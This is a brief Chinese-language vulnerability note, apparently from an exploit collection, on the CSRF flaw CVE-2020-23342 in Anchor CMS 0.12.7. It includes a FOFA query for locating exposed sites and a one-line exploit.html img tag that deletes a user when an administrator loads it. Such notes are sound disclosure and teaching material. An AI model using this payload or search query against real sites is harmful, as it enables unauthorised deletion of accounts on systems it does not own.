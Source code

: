 # Anchor CMS 0.12.7 跨站请求伪造 CVE-2020-23342

## 漏洞描述

- https://packetstormsecurity.com/files/161048/anchorcms0127-xsrf.txt

## FOFA

```
"Anchor CMS" && body="themes/default/img/favicon.png"
```

## 漏洞复现

Anchor CMS使用Get方法进行敏感操作，可以使用exploit.html进行删除用户等操作。

**exploit.html：**

```html
<img src="http://target/anchor/index.php/admin/users/delete/21">
```

当管理员点击时删除ID为21的用户。